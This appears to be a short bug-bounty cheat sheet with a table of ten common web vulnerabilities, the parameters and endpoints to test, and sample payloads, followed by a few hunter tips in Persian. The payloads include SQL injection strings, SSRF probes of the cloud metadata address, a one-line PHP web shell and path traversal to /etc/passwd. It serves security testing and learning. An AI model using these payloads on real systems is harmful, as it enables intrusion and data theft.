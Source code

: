 | #  | Vulnerability                  | Sensitive Parameters                         | Example Endpoint                            | Sample Payload (Test)                           |
|----|--------------------------------|---------------------------------------------|---------------------------------------------|------------------------------------------------|
| 1  | IDOR (Insecure Direct Object)  | id, uid, user_id, account, profile, orderId  | /api/user?uid=123                           | Change `uid=123` ➝ `uid=124` (see another user) |
| 2  | Broken Access Control (BAC)    | role, admin, isAdmin, permission, access     | /api/updateRole?uid=123&role=user           | Change `role=user` ➝ `role=admin`              |
| 3  | SQL Injection (Error/Union)    | id, q, query, search, filter, category       | /product?category=1                         | `' OR '1'='1 --` <br> `1 UNION SELECT NULL--`   |
| 4  | SSRF (Server-Side Request Forg.)| url, redirect, callback, dest, next, host    | /fetch?url=http://example.com               | `http://127.0.0.1:80` <br> `http://169.254.169.254/latest/meta-data/` |
| 5  | Authentication Bypass          | token, access_token, id_token, session, code | /login?token=XYZ                            | Use NULL / Empty Token / Replay JWT             |
| 6  | Account Takeover (ATO)         | email, reset, token, session, sid, code      | /reset?email=user@test.com&token=123        | Change victim email ➝ Receive reset link        |
| 7  | RCE / Shell Upload             | file, filename, upload, template, exec       | /upload?file=shell.php                      | `<?php system($_GET['cmd']); ?>`                |
| 8  | Unrestricted File Upload       | image, avatar, uploadFile, fileData          | /api/upload/avatar                          | Upload `.php` / `.jsp` disguised as `.jpg`      |
| 9  | Race Condition                 | amount, price, transfer, order, checkout     | /purchase?item=123&price=100                | Send parallel requests ➝ Double purchase        |
| 10 | Path Traversal / File Deletion | file, filepath, dir, path, delete, remove    | /download?file=report.pdf                   | `../../../../etc/passwd` <br> `../../var/www/html/config.php` |

======================================================================================================

چند نکته‌ی هانترها:

برای IDOR & BAC همیشه تست روی /api/ و /admin/ انجام میشه.

برای SSRF بهترین شانس روی پارامترهای url, redirect_uri, target هست.

برای RCE/File Upload تست رو با دوبار تغییر Content-Type یا تغییر پسوند فایل می‌زنن.

برای Race Condition از ابزارهایی مثل Turbo Intruder یا Burp Repeater (parallel) استفاده میشه.

======================================================================================================

